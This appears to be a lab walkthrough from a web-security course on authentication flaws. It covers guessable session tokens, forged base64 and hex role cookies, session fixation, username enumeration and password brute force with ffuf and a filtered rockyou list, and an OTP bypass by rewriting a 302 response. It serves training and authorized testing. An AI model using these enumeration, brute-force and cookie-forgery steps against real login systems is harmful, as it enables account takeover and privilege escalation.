Consider a web application that issues a four-character hexadecimal session token:

```
Set-Cookie: session=a5fd
```

A four-character hexadecimal token has only: 16<sup>4</sup> = 65,536 possible combinations.

This is a small search space, **making brute-force attacks potentially practical if the application lacks effective protections**.

#### Partially random tokens

A token may appear long but **contain mostly static characters**.

**Example tokens:**

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
```

The tokens share a **common prefix and suffix 28 characters are the same for all five captured sessions**. In this example, **only four hexadecimal characters vary**.

The session tokens consist of the static string `2c0c58b27c71a2ec5bf2b4` followed by `four random characters` and the static string `92b9f9`

The effective search space for that varying portion is: : 16<sup>4</sup> = 65,536 possible combinations.

**Testing approach:**

1. Log in repeatedly to your authorized test account.
2. Capture the session tokens.
3. Compare their **prefixes, suffixes, and changing portions**.
4. Determine whether the changing portion **appears random or follows a pattern**.
5. Evaluate the **effective entropy** rather than relying on token length alone.

#### Sequential session tokens

Example:

```
141233
141234
141237
141238
141240
```

These values may indicate that the application generates predictable session identifiers.

If tokens are sequential or otherwise predictable, an attacker might infer valid session identifiers.

### Attacking Predictable Session Tokens

Some tokens **contain encoded information about the user or their role**.

#### Base64-encoded tokens

Example cookie:

```
dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy
```

Decode it:

```
echo -n 'dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy' | base64 -d
```

Output:

```
user=htb-stdnt;role=user
```

This reveals that the token contains a username and role.

Base64 is an encoding scheme, not encryption. Anyone who obtains the token can decode its contents.

**Modifying the token**

Suppose the application trusts the role embedded in the cookie and does not verify its integrity.

The original data is:

```
user=htb-stdnt;role=user
```

A modified version would be:

```
user=htb-stdnt;role=admin
```

Encode the modified value:

```
echo -n 'user=htb-stdnt;role=admin' | base64
```

Example output:

```
dXNlcj1odGItc3RkbnQ7cm9sZT1hZG1pbg==
```

In an authorized lab, this illustrates how an application that **trusts unsigned client-side role data may allow privilege escalation**.


#### Hexadecimal-Encoded Tokens

Another format uses hexadecimal encoding.

Example:

```
757365723d6874622d7374646e743b726f6c653d75736572
```

Decode it with:

```
echo -n '757365723d6874622d7374646e743b726f6c653d75736572' | xxd -r -p
```

Output:

```
user=htb-stdnt;role=user
```

To encode modified data:

```
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

The result represents the same data in hexadecimal.

```
757365723d6874622d7374646e743b726f6c653d61646d696e
```

### 📌 Question 1


### 📌 Question 2

**Step 1: Log in**

Use the supplied credentials:

```
Username: htb-stdnt
Password: AcademyStudent!
```

After logging in, **capture cookie header from Network tab**

**Step 2: Identify the encoding type and decode it**

**Cookie : `session=757365723d6874622d7374646e743b726f6c653d75736572`**
**Type : Hexadecimal-Encoded Tokens**

Decode it with:

```
echo -n '757365723d6874622d7374646e743b726f6c653d75736572' | xxd -r -p
```

Output:

```
user=htb-stdnt;role=user
```

To encode modified data:

```
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

The result represents the same data in hexadecimal.

```
757365723d6874622d7374646e743b726f6c653d61646d696e
```

**Step 3: Change cookie in browser and refresh the page**


## Section 13

### Overview

**Session management vulnerabilities** can allow attackers to **hijack authenticated sessions or continue using sessions longer than intended**.

This section covers two common vulnerabilities:

1. **Session Fixation** — an attacker causes a victim to authenticate using a session ID already known to the attacker.
2. **Improper Session Timeout** — a session remains valid longer than the application's security requirements allow.

### Session Fixation

**Session fixation** occurs when a web application does not generate a new session ID after successful authentication.

If an attacker can make a victim use a session ID known to the attacker, the attacker may be able to reuse that ID to access the victim's authenticated session.

**Step 1: Obtain a session ID**

The attacker obtains a session ID, for example `a1b2c3d4e5f6`.

**Step 2: Make the victim use that ID**

The vulnerable application accepts a session ID from a URL parameter such as `sid` and sets it as a cookie.

**Step 3: The victim logs in**

The application authenticates the victim but fails to replace the existing session ID.

**Step 4: Session hijacking**

The attacker attempts to reuse the known session ID to access the victim's authenticated session.

**Example**

A vulnerable application accepts this URL:

```
http://vulnerable.htb/?sid=a1b2c3d4e5f6
```

It then sets the session cookie using the supplied value:

```
HTTP/1.1 200 OK
Set-Cookie: session=a1b2c3d4e5f6
```

If the application **continues using this session ID after the victim logs in**, the attacker may be able to hijack the authenticated session.

**Root cause:** The application allows a session identifier to be controlled externally and **fails to rotate it after authentication**.


**How to test for session fixation**

- Inspect how session IDs are created and assigned.
- Check whether URL parameters or other client-controlled inputs can set the session ID.
- Record the session ID before authentication.
- Log in using an authorized test account and record the session ID afterward.
- Verify that successful authentication generates a new session ID.
- Confirm that the old session ID cannot access the authenticated session.


### Improper Session Timeout

A **session timeout** defines how long an authenticated session remains valid before the application requires the user to authenticate again.

Without appropriate expiration, a stolen session token may remain usable for an extended period, increasing the impact of session hijacking.

**Types of session timeout**

| Timeout type     | Description                                                                  |
| ---------------- | ---------------------------------------------------------------------------- |
| Idle timeout     | Expires a session after a period of inactivity.                              |
| Absolute timeout | Expires a session after a maximum lifetime, even if the user remains active. |

**How to test for improper timeout**

1. Log in to an authorized test account.
2. Capture the session cookie.
3. Leave the session inactive for the application's expected timeout period.
4. Attempt to access a protected endpoint using the existing session.
5. Check whether the server rejects the expired session and requires reauthentication.
6. If applicable, test whether continued activity prevents expiration beyond the intended absolute lifetime.

## Section 14
<center><b>Password Policy, Username Enumeration, Password Brute-Force & Direct Access Bypass</b></center>

**Step 1: Create a New Account and Identify the Password Policy**

First, register a new account to understand the application's registration process and password requirements.

**For example, try:**

```
Username: bavly
Password: 123456
```

**The application returns the following error:**

```
Password does not meet our password policy:

- Contains at least one digit
- Contains at least one lower-case character
- Contains at least one upper-case character
- Contains NO special characters
- Is exactly 12 characters long
```

**From this response, we can identify the password policy**


**Step 2: Create an Account and Generate a Custom Password Wordlist**

Create the account using a password that meets the requirements.

```
Username: bavly
Password: HackerBav0ne
```

Next, filter **`rockyou.txt`** to generate a wordlist containing passwords that match the application's policy.

```bash
awk 'length($0) == 12 && /[a-z]/ && /[A-Z]/ && /[0-9]/ && /^[[:alnum:]]+$/' \
/opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt \
> custom_wordlist.txt
```

**Step 3: Perform Username Enumeration**

Before attempting a password brute-force attack, **determine whether the application responds differently to valid and invalid usernames.**

**Test the following credentials.**

**Test 1 — Potentially valid username:**

```
Username: bavly
Password: 123456
```

Response:

```
Invalid credentials.
```

**Test 2 — Potentially invalid username:**

```
Username: hacker
Password: 123456
```

Response:

```
Unknown username or password.
```

The **different error messages may indicate that the application handles existing and nonexistent usernames differently**. Confirm this behavior with repeated controlled tests before relying on it.

**Automate username enumeration with FFUF**

```
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt \
-u http://<IP>:<PORT>/login.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=FUZZ&password=invalid" \
-fr "Unknown username or password."
```

**Result for Username Enumeration: `gladys`**


**Step 4: Brute-Force the Password for a Valid Username**

Once you have identified a valid username **`gladys`**, use the custom password wordlist generated in Step 2 to test password candidates.

```
ffuf -w ./custom_wordlist.txt \
-u http://<IP>:<PORT>/login.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=gladys&password=FUZZ" \
-fr "Invalid credentials."
```

**Result: `gladys`:`dWinaldasD13`**


**Step 5: Bypassing OTP Authentication**

After submitting the login credentials **`gladys`:`dWinaldasD13`**, we notice that the application requires an OTP (One-Time Password) to complete the authentication process. We will test two possible approaches to bypass this step.

**Method 1: OTP Brute-Force (Section 6)**

1. Follow the OTP brute-force technique covered in Section 6.
2. Attempt to identify the correct OTP using the available testing method.
3. **Result:** The attempt was unsuccessful, and we could not discover the correct OTP.

**Method 2: Direct Access Bypass (Section 10)**

1. Open Burp Suite and enable Proxy interception.
2. Request the protected endpoint `/profile.php` after submitting the login credentials.
3. Inspect the server response and check whether it contains protected page content alongside a `302 Found` redirect.
4. If necessary, enable **Do intercept → Response to this request** to inspect the response before forwarding it.
5. In the authorized lab, change the response status from `302 Found` to `200 OK`, then forward the response to observe how the browser handles the returned content.

**Result:** The second method worked. We were able to access and display the profile page directly without successfully completing the OTP verification.

